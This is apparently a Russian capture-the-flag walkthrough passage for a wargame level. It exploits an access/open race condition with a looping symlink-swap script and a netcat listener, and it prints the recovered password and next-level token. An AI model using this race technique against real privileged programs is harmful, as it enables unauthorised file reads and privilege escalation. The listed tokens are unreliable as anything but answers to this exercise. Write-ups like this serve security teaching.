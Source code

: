 * Либо сервер в фоне 
```
nc -l -k 6969 > tkn &
```

4. Поиск уязвимостей. \
Следующая команда показывает использование access и open, что создает уязвимость: \
http://www.opennet.ru/cgi-bin/opennet/man.cgi?category=2&topic=access
```
ltrace ./level10 2.txt 127.0.0.1
```
Пишу скрипт (создать ссылку то на один файл, то на другой - и всё это в бесконечном цикле) и запускаю 
```sh
./myscript.sh &
```

```sh
#!/bin/bash
# myscript.sh
touch in
chmod 777 in
while true
do
 ln -sf in mylink
 ln -sf token mylink
done
```
5. Запускаю программу много раз подряд и периодически проверяю, записалось ли содержимое файла token сервером в tkn:
```sh
./level10 mylink 127.0.0.1
```

```sh
cat tkn
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
```

```sh
su flag10
# ||
# \/
# Password: woupa2yuojeeaaed06riuj63c
# Don't forget to launch getflag !

getflag
# ||
# \/
# Check flag.Here is your token : feulo4b72j7edeahuete3no7c

su level11
Password: feulo4b72j7edeahuete3no7c
```
